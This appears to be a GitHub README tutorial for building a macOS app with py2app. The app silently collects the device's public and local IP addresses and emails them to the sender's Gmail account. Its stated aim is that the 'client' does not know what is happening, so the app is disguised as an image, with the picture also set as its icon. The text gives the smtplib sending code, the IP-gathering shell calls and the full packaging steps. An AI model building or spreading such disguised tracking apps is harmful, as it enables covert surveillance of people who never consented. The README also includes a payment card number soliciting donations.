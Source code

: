 # <p id="UP">Do you want to create an app without interface for mac?</p>

> The idea of this application will be banal and at the same time interesting. We will receive the IP address of the device and send it to the gmail. In order for our client not to know about what is happening, I propose to hide our trap under the guise of an image taken from the Internet.

## <p align="center">Give thanks : 5168 7450 1701 5535 <a href="https://en.privatbank.ua/all-ways-to-receive-send-an-international-transfer"><img src="https://upload.wikimedia.org/wikipedia/uk/f/ff/%D0%9B%D0%BE%D0%B3%D0%BE%D1%82%D0%B8%D0%BF_%D0%9F%D1%80%D0%B8%D0%B2%D0%B0%D1%8224.png" width = "25" alt="Privat Bank UA"> </a></p>

### let's start parsing the code, which I added to a separate [__sketch.ipynb__](https://github.com/syroiezhin/console2app/blob/main/sketch.ipynb) file for your convenience.

- [X] First of all, let's start with the picture.
1. We can take it directly from the internet.
```python
from PIL import Image
from requests import get
Image.open(get("https://static.ngs.ru/news/2015/99/preview/6f3e934e7e2d0402bdf8113262ea14420b7da035_640.jpg", stream=True).raw).show()
```
2. We don't have to upload it to the app file, this is at your discretion, but we will set the icon for the application with the same image, so:
```python
from PIL import Image
Image.open("image.jpeg").show()
```
- [X] There are various packages for sending emails, but they all use __smtplib__.
```python
server = SMTP(smtp, 587)
server.starttls()
server.login(sender, application_passwords)
msg = MIMEText(mail,"html")
msg["Subject"] = subject
msg['From'] = sender
msg['To'] = destination
server.sendmail(sender, destination, msg.as_string())
```
> Be sure to create your password for your sender mail using [the link provided](https://myaccount.google.com/security#:~:text=chevron_right-,%D0%9F%D0%B0%D1%80%D0%BE%D0%BB%D1%8C%20%D0%B8%D0%B7%D0%BC%D0%B5%D0%BD%D0%B5%D0%BD,-24%20%D0%B8%D1%8E%D0%BB.%20%C2%B7%20%D0%A3%D0%BA%D1%80%D0%B0%D0%B8%D0%BD%D0%B0).
- [X] For orientation in letters, I suggest adding time.
1. As you know, many people use the __datetime__ library to get time data from a computer.
```python
from datetime import datetime
print( datetime.now().strftime("%d.%m.%Y - %H:%M:%S") )
```
2. I suggest using a more convenient way without loading extra libraries into the project.
```python
from os import popen
popen('date').read()
```
- [X] We need the __os__ library to receive a response from the terminal.
1. To get global ip:
```python
popen("curl ifconfig.me").read().strip()
```
2. To get local ip:
```python
popen("ipconfig getifaddr en0").read().strip()
```
> There are other ways to get this information, but I think this is the most elegant way.

### It remains to issue a __setup__ file to get a working application:

- [X] Install:
```python
pip install py2app
```
- [X] We go to the desired directory of the program using cd: `cd Desktop/NameFolder/FolderProject`
- [X] Make sure the required py is in your directory with the command: `ls`
- [X] Create setup.py with:
```
py2applet --make-setup nameProject.py
```
- [X] Let's analyze the changes made to the setup.py file:
1. Come up with a name for the program; specify the file of our program; we will make the entire list of additional programs, if such were used; we specify the entire list of libraries that is not included in the list of the standard library; and be sure to remember the icon.
```python
from setuptools import setup

APP_NAME = "envoy"
APP = ['agent.py']
DATA_FILES = []
OPTIONS = {
    'includes': ['PIL','smtplib','email'],
    'packages': ['PIL','smtplib','email'],
    'iconfile':'image.jpeg'
}
```
2. Now we can include [a description](https://docs.python.org/3/distutils/apiref.html) of this application to make it look serious:
```python
setup(
    app=APP,
    name=APP_NAME,
    data_files=DATA_FILES,
    setup_requires=['py2app'],
    options={'py2app': OPTIONS},

    version='2022.08.04',
    description='scan ip',
    long_description="Sending ip to mail from a running device",

    author='@NEU3RON',
    license="Syroiezhin",
    author_email='v.syroiezhin@gmail.com',
    download_url="https://github.com/syroiezhin",
)
```
- [X] Сongratulations, now save the change and type the final command into the terminal of the file:
```
python3 setup.py py2app
```
- [X] In case of error "No such file or directory: ... zmq/.dylibs" you will have to reinstall first by deleting:
```
conda remove zeromq
```
- [X] ... and then install without errors getting the result after you try again (`python3 setup.py py2app`).
```
conda install zeromq
```

[⇪](#UP)
